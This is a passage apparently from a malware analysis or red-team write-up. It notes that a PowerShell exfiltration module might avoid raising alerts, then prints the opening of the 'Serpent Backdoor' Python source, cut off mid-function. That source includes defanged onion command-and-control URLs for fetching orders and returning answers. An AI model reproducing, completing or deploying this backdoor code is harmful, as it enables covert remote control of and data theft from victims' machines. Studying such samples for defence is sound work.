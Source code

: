 ![image13.png](img/image13.png)

_This module is rudimentary, and could be improved to be able to download particular files. Indeed, the Powershell function allows to create archives of a maximum size of 2GB. However, this does not require installing any additional tools, and could potentially not raise alerts._

Here is the original Serpent Backdoor as discovered in the wild :

```python
#!/usr/bin/python3  
  
from subprocess import Popen, PIPE, STDOUT  
import requests  
import re  
import socket  
import time  
  
cmd\_url\_order = 'http://mhocujuh3h6fek7k4efpxo5teyigezqkpixkbvc2mzaaprmusze6icqd[.]onion.pet/index.html'  
cmd\_url\_answer = 'http://ggfwk7yj5hus3ujdls5bjza4apkpfw5bjqbq4j6rixlogylr5x67dmid[.]onion.pet/index.html'  
hostname = socket.gethostname()  
hostname_pattern = 'host:%s-00' % hostname  
headers = {}  
referer = {'Referer': hostname_pattern}  
cache_control = {'Cache-Control': 'no-cache'}  
headers.update(referer)  
headers.update(cache_control)  
check\_cmd\_1 = ''  
  
def recvall(sock, n):  
  data = b''  
  while len(data) < n:  
    packet = sock.recv(n - len(data))  
```